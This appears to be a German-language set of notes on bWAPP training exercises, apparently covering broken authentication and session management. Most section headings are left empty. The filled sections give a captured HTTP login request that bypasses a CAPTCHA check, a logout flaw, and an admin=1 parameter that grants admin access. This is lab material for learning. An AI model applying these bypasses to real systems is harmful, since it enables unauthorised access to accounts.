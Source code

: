### // A2 - Broken Authentication	/	Session	Management //
---
##### Broken Authentication - CAPTCHA Bypassing
Sicherstellen das captcha_box.php nicht geladen wird. Dort wird die Session Varible geladen.
$_SESSION["captcha"] erfordert eine prüfung. Mittels Burp kann eine übermittlung von captcha user vermieden werden.
~~~
POST /bWAPP/ba_captcha_bypass.php HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:8083/bWAPP/ba_captcha_bypass.php
Cookie: PHPSESSID=67a6abb1d7ff40c55ad50d3aa43fc7c4; security_level=2
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

login=bee&password=bug&form=submit
~~~
---
##### Broken Authentication - Forgotten Function
---
##### Broken Authentication - Insecure Login Forms
---
##### Broken Authentication - Logout Management
> Öffnet man ein neues Tab und meldet sich von der Seite ab, bleibt die Session vorhanden.

---
##### Broken Authentication - Password Attacks
---
##### Broken Authentication - Weak Passwords
---
##### Session Management - Administrative Portals
In der URL und den Cookies:
~~~
admin=1
~~~
---
##### Session Management - Cookies (HTTPOnly)
---
##### Session Management - Cookies (Secure)
---
##### Session Management - Session ID in URL
---
##### Session Management - Strong Sessions
